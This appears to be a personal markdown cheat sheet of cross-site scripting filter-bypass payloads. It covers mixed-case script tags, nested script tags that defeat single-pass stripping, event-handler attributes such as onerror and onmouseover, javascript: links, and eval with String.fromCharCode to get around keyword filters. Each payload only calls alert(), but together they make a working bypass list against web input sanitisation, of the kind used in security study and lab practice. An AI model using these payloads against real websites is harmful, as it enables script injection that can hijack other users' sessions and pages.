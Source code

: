 # Casing
Very easy bypass, just change the casing:

```html
<sCrIPt>alert('e6206710-c2c4-4704-869e-888e9947486e')</sCrIPt>
```

If the script tag is only removed once, you can add a script tag inside a script tag to bypass

# Script inside script ()

```html
<sCr<script>IPt>alert('e6206710-c2c4-4704-869e-888e9947486e')</sCr</script>IPt>
```

# Other Tags

- `<a>` (or `<div>`)tag and the following events: `onmouseover`, `onmouseout`,`onmousemove`, `onclick`
- `<a href='javascript:alert(1)' ...`
- `<img src=zzz onerror='alert(1)'/>`

```ad-important
Pay attention to your adblocker, it can block a lot of these and you won't see XSS (namely the `<img>` one.)
```

# Tag works, filter on words

```html
<script>eval(String.fromCharCode(97,108,101,114,116))(1)</script>
```

